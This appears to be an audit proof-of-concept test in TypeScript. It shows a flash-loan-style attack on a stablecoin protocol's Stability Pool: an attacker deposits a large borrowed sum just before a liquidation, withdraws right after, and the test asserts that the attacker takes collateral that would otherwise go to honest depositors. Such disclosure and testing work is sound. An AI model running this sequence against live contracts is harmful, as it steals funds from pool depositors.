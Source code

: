 ```typescript
    stabilityPool = contracts.stabilityPool;

    // Mint MUSD for testing
    await contracts.musd.unprotectedMint(alice.wallet, to1e18(10_000_000));
    await contracts.musd.unprotectedMint(bob.wallet, to1e18(10_000));
    await contracts.musd.unprotectedMint(carol.wallet, to1e18(10_000));
    await contracts.musd.unprotectedMint(attacker.wallet, to1e18(20_000_000)); // Mock flash loan
  });

  it("demonstrates flash loan attack on Stability Pool", async () => {
    // Alice deposits 10M MUSD to Stability Pool
    await stabilityPool.connect(alice.wallet).provideToSP(to1e18(10_000_000));

    // Bob opens a trove: 100 ETH collateral, 5000 MUSD debt
    const bobCollateral = ethers.parseEther("100");
    const bobDebt = to1e18(5000);
    await borrowerOperations
      .connect(bob.wallet)
      .openTrove(0, bobDebt, ethers.ZeroAddress, ethers.ZeroAddress, { value: bobCollateral });

    // Carol opens a trove: 5.55 ETH collateral, 10,000 MUSD debt
    const carolCollateral = ethers.parseEther("5.55");
    const carolDebt = to1e18(10_000);
    await borrowerOperations
      .connect(carol.wallet)
      .openTrove(0, carolDebt, ethers.ZeroAddress, ethers.ZeroAddress, { value: carolCollateral });

    // Simulate ETH price drop to make Carol's trove liquidatable
    await contracts.priceFeed.setPrice(1950e18); // ETH price drops to $1950

    // Attacker deposits 20M MUSD (mocked flash loan)
    await stabilityPool.connect(attacker.wallet).provideToSP(to1e18(20_000_000));

    // Liquidate Carol's trove
    const trovesToLiquidate = [carol.wallet];
    await troveManager.batchLiquidateTroves(trovesToLiquidate);

    // Attacker withdraws immediately
    await stabilityPool.connect(attacker.wallet).withdrawFromSP(to1e18(20_000_000));

    // Verify attacker's collateral gain
    const attackerCollGain = await stabilityPool.getDepositorCollGain(attacker.wallet);
    expect(attackerCollGain).to.be.gt(0, "Attacker should have gained collateral");

    // Verify Alice's reduced collateral gain
    const aliceCollGain = await stabilityPool.getDepositorCollGain(alice.wallet);
    expect(aliceCollGain).to.be.lt(to1e18(5.55), "Alice's gain should be reduced");
  });
});
```
